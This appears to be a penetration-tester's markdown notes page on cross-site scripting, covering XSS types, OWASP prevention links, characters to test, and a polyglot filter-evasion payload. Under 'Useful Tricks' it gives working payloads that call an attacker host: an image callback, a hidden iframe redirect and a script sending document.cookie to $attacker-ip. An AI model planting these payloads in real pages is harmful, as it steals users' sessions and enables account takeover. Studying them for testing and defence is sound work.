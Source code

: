 # XSS
Unsanitized data can allow attacker to inject client side scripts into webpages and execute malicious code.

XSS Type | Description | Potential Targets
--- | ---
Stored or Persistent(Can be blind) XSS | Payload is stored in database or cached by server | Everyone
Reflected XSS  | Payload included into a page contents | Request-er or link follower only
DOM-Based XSS  | Similar to the above but only occuur in a page's Document Object Model (DOM) | Browser parses the page's content
Self-XSS | Social Engineering a victim to the execute malicious JS | Socially Engineered
Mutated XSS | Injection that rewritten and modified by browser while parsing the markup. | Type related. 

## Prevention

A defense in depth approach should be applied as data should be sanitized in every location to where the data is passed.

[XSS Prevention Cheatsheet from OWASP](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
[DOM XSS Prevention Cheatsheet from OWASP ](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html)


## Identifying XSS

If the application does not filtering these characters by removing or encoding them, it may be vulnerable to XSS.
```javascript
< > ' " { } ;
```



## Useful Tricks
Listener at the ready you can check if you get a connection back:
```html
<img src=http://$attacker-ip:port />
```
[Bankrobber Ippsec Video](https://www.youtube.com/watch?v=zYmA9ECuCio)

Content injection, server a file with an iframe of no size sending victims browser to a client-side attack or to script that gathers information. 
```html
<iframe src=http://$attacker-ip:port/file height=”0” width=”0”></iframe>
```

Cookie Stealing
```html
<script>new Image().src="http://$attacker-ip:port/cookiejar.jpg?output="+document.cookie;</script>
```

Bypass payload size restrictions by [linking to an external Javascript file](https://www.youtube.com/watch?v=Uo3cL4nrGOk).


## XSS Polyglots
```javascript
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('XSS') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('XXS')//>\x3e
```

## SKing7's XSS Filter Evasion Cheat Sheet

This cheat sheet lists a series of XSS attacks that can be used to bypass certain XSS defensive filters. Please note that input filtering is an incomplete defense for XSS which these tests can be used to illustrate. 
[Sking7](https://sking7.github.io/articles/218647712.html)


## References
[Owasp](https://owasp.org/www-community/attacks/xss/)
[XSS Prevention Cheatsheet from OWASP](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
[DOM XSS Prevention Cheatsheet from OWASP ](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html)
[XXS Wiki](https://en.wikipedia.org/wiki/Cross-site_scripting)
[sking7](https://sking7.github.io/articles/218647712.html)
[Bankrobber Ippsec Video](https://www.youtube.com/watch?v=zYmA9ECuCio)

